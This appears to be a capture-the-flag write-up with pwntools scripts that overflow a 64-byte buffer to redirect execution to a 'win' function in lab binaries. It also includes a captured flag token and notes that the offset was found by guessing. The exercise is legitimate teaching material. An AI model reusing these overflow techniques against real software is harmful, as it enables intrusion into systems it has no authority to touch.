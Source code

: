 ```
# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR


def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
continue
'''.format(**locals())

if args.REMOTE:
    global_timeout = 3
    p = remote(REMOTE, REMOTEPORT)
else:
    global_timeout = 0.5
    p = process(PROGNAME)
    p = start()
#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================

#The winning function is at 0x8048536
#Do you remember how function pointers work ?
p.recvuntil(b'?', drop=True)
payload = b'a' * 64 + p32(0x8048536)
p.sendline(payload) #win
p.interactive()
```

blind
===============================================================
Flag:FLAG{eyJhbGciOiJIUzI1NiJ9.eyJjaGFsIjoiMS1ibGluZCIsImlwIjoiMTQ0LjEzNi4yOC4zNiIsInNlc3Npb24iOiIxOGI2ZDIwZS1jMzNjLTQ3MjEtYmEyMS0zNGM3OThmMTUzZDkifQ.vUjgxcC1gz79PDVq-iVBC0R2k6940T5kBhBdu4FpsM0}

General overview of problems faced
---------------------------------------------------------
Mostly same problems from jump, but now I need to find the address myself. I used binaryninja to find the adresss where win() was.
Buffer size is 64, and we need 8 more bytes to reach the space where the return
address is. We change this to 0x80484d6, so we return to that function.
I brute forced to find out 8 extra bytes were needed to reach the return address space.
Looking at pwngdb, I can see esp is added for 4 or 8. I took at a guess at each of these and 8 turned out to the key number.
Will have to confirm and figure this out.
Script/Command used
```
#!/usr/bin/env python
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template
from pwn import *

# Set up pwntools for the correct architecture
context.update(arch='i386')
```